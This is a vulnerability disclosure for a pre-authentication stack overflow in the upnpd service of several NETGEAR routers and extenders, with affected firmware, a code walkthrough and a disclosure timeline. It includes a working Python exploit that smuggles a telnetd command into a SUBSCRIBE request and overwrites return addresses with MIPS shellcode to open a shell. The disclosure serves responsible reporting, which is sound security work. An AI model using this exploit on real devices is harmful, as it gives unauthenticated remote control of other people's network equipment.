





# NETGEAR_stack_overflow


#### Impact products 

​	EX6100v1

​	EX6200

​	CAX80

​	DC112A

#### Affect device firmware

Link:

​	https://www.netgear.com/support/product/EX6100.aspx#Firmware%20Version%201.0.2.28

​	https://www.downloads.netgear.com/files/GDC/CAX80/CAX80-V2.1.3.5.zip

​	https://www.downloads.netgear.com/files/GDC/CAX80/CAX80-V2.1.2.6.zip

​	...

#### Describ

​	A stack overflow vulnerability exists in the upnpd service, which may lead to the execution of arbitrary code without authentication

#### Detail (Listing with ex6100v1)

​	In the upnp_main function, the data size of 0x1fff is accepted and stored in v81.



​	Next, in the figure below, the function v81 variable is called as the first parameter



​	When processing subscribe and unsubscribe requests, you will enter the gena_http_method_check function a1 with the previous v81 parameter, and follow up this function 



​	This function copies the input to the stack through strcpy, and the data is larger than the buffer, resulting in stack overflow. Arbitrary code can be executed without authentication






#### Summary(Listing with ex6100v1)

​	Because the general upnpd service is started by default, it is very harmful and can cause the execution of arbitrary code. This exp can open the latest firmware of EX6100（https://www.netgear.com/support/product/EX6100.aspx#Firmware%20Version%201.0.2.28） Telnetd service for devices 

```
from pwn import *
p=remote("192.168.0.110",5000)
request = "SUBSCRIBE /gena.telnetd${IFS}-p${IFS}23;?service=" + "1" + " HTTP/1.0\n"
request += "Host: " + "192.168.1.0:" + "80" + "\n"
request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
request += "NT: upnp:event\n"
request += "Timeout: Second-1800\n"
request += "Accept-Encoding: gzip, deflate\n"
#request = 	request.ljust(0x1000,"a")
print len(request)
request += request+"doud"
stg3_SC =''
stg3_SC += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
stg3_SC += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
stg3_SC += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
stg3_SC += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
stg3_SC += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
stg3_SC += "\xab\x0f\x02\x24\x0c\x09\x09\x01"
#payload+= "d"*0x18
request += request+stg3_SC
request = request.ljust(0x1f00,"a")
request += p32(0x7fff7030)
request = request.ljust(0x1f48-0x14,"a")
request += p32(0x422848)
#request += p32(0x422944)
#request += "a"*0x500
#request += p32(0x7fff7030)*8
p.send(request)
p.interactive()
```

#### Timeline

The manufacturer has issued relevant announcements：

​	https://kb.netgear.com/000064615/Security-Advisory-for-Pre-Authentication-Command-Injection-on-EX6100v1-and-Pre-Authentication-Stack-Overflow-on-Multiple-Products-PSV-2021-0282-PSV-2021-0288?article=000064615

**On October 1, 2021, the loopholes were discovered and the report was written**

**On October 7, 2021, a vulnerability report was submitted,**

**On February 4, 2022, the manufacturer issued an announcement**

**On February 6, 2022, the vulnerability was disclosed on GitHub**

